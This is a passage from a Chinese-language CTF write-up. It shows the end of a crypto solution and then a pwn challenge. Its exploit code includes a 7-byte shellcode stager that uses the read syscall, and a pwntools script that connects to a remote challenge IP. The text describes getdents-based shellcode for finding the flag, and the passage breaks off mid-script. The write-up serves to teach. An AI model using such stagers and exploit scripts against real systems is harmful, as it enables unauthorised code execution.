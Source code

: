 ```
iv = hex(iv)[2:]
iv = "0"*(32-len(iv))+iv
print iv+c0+c1+c2+c3+c4+c5+c6+c7
# p.sendlineafter("cookie:n",c6*2+c7+sha1)
p.interactive()
```



## Pwn

### <a class="reference-link" name="Shellcoder"></a>Shellcoder

这题允许输入7个字节的`shellcode`，我们首先使用`read`的系统调用，读入更多可执行的`shellcode`：

```
sc = asm('''
    mov    dh,0xf
    xchg    rsi,rdi
       syscall
    ''')
```

然后，由于不能直接使用`shellcode`起`shell`，我们编写了利用`getdents`系统调用，递归查找`flag`文件的`shellcode`。最后打印出flag文件的内容。完整的利用脚本如下：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import base64

context(os='linux', arch='amd64')
context.log_level = 'debug'

IS_DEBUG = 0
prog = './shellcoder'
if IS_DEBUG:
    r = process(prog)
    # r = process(prog, env=`{`'LD_PRELOAD':'../libc/libc-2.28.so'`}`)
else:
    r = remote('139.180.215.222', 20002)

elf = ELF(prog)
libc = elf.libc

def my_u64(byte_arr):
    padding = b'x00' * (8-len(byte_arr))
    res = byte_arr + padding
    return struct.unpack('&lt;Q', res)[0]


# gdb.attach(r, 'b *0x5555555544c7nc')
sc = asm('''
    mov    dh,0xf
    xchg    rsi,rdi
       syscall
    ''')
print('len_sc: %d' %len(sc))
r.sendafter(':', sc)

shellcode = asm('''
```